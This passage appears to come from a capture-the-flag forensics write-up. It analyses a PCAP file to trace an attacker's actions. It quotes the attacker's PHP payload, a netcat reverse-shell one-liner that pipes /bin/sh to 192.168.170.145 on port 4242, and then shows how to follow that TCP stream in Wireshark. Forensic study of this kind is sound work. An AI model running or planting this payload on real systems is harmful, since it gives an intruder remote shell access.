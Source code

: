 <img style="float: left;" src="screenshots/screenshot2.png">

<br>

**Payload: \<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>**

---

### [ What password did the attacker use to privesc? ]

Looking at the payload from earlier, we can see that the attacker is trying to open up a reverse shell into **port 4242** on his local machine. Sure enough, scanning through the PCAP file, I noticed several TCP packets being sent from the target machine to port 4242 of another machine (the attacker's). We can follow the TCP traffic by right-clicking on any of these packets, then clicking on **Follow** > **TCP Stream**.
